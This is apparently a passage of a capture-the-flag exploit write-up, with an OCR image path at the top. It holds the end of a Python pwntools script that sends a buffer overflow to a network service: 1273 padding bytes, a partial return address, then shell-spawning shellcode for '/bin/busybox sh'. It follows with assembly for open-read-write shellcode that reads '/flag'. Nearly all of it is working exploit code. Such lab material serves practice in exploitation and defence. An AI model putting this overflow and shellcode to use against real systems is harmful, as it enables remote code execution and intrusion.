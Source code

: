 ```python
    0x00, 0x6C, 0xA3, 0x6F, 0x82, 0x98, 0xEE, 0xD9, 0x01, 0x20, 0x0E, 0xD9, 0x00, 0x20, 0x03, 0x14,

    # useless shellcode just for stucking process, used to launch shell
    0x22, 0x14, 0x0E, 0xDD, 0x00, 0x20, 0xEE, 0xDD, 0x01, 0x20, 0x3B, 0x6E, 0x2A, 0x14, 0x68, 0xE4,
    0x0F, 0x10, 0x2F, 0x32, 0x40, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x62, 0x32, 0x41, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x69, 0x32, 0x42, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x6E, 0x32, 0x43, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x2F, 0x32, 0x44, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x62, 0x32, 0x45, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x75, 0x32, 0x46, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x73, 0x32, 0x47, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x79, 0x32, 0x48, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x62, 0x32, 0x49, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x6F, 0x32, 0x4A, 0xA3, 0x68, 0xE4, 0x0F, 0x10, 0x78, 0x32, 0x4B, 0xA3, 0x68, 0xE4,
    0x0F, 0x10, 0x00, 0x32, 0x4C, 0xA3, 0x68, 0xE4, 0x17, 0x10, 0x73, 0x32, 0x40, 0xA3, 0x68, 0xE4,
    0x17, 0x10, 0x68, 0x32, 0x41, 0xA3, 0x68, 0xE4, 0x17, 0x10, 0x00, 0x32, 0x42, 0xA3, 0x68, 0xE4,
    0x23, 0x10, 0x48, 0xE4, 0x0F, 0x10, 0x40, 0xB3, 0x68, 0xE4, 0x23, 0x10, 0x48, 0xE4, 0x17, 0x10,
    0x41, 0xB3, 0x68, 0xE4, 0x23, 0x10, 0x00, 0x32, 0x42, 0xB3, 0x68, 0xE4, 0x27, 0x10, 0x00, 0x32,
    0x40, 0xB3, 0x48, 0xE4, 0x27, 0x10, 0x28, 0xE4, 0x23, 0x10, 0x68, 0xE4, 0x0F, 0x10, 0x0F, 0x6C,
    0xE0, 0xB8, 0xDD, 0x37, 0x00, 0xC0, 0x20, 0x20, 0x02, 0x14, 0x3C, 0x78
]

test = b'Oclient_port' + b'a' * 1273 + p32(0x13fa1c)[:3] + b'\r\nbb' + bytearray(sc) + b'\r\n'

p.send(test)
# p.sendline(test)
p.interactive()
```

shellcode:

```
# shellcode for open read write
subi              sp, sp, 12
st.w              r8, (sp, 0)
st.w              r15, (sp, 0x4)
st.w              r4, (sp, 0x8)
mov              r8, sp
subi              sp, sp, 276
subi              r3, r8, 20
movi              r2, 47
st.b              r2, (r3, 0)
subi              r3, r8, 20
movi              r2, 102
st.b              r2, (r3, 0x1)
subi              r3, r8, 20
movi              r2, 108
st.b              r2, (r3, 0x2)
subi              r3, r8, 20
movi              r2, 97
st.b              r2, (r3, 0x3)
subi              r3, r8, 20
movi              r2, 103
st.b              r2, (r3, 0x4)
subi              r3, r8, 20
movi              r2, 0
st.b              r2, (r3, 0x5)
subi              r4, r8, 4
subi              r3, r8, 20
movi              r0, 0
mov               r1, r3
subi              r0, 100
movi              r7, 56
trap              0

lsli              r0, r0, 0
st.w              r0, (r4, 0)
subi              r1, r8, 276
```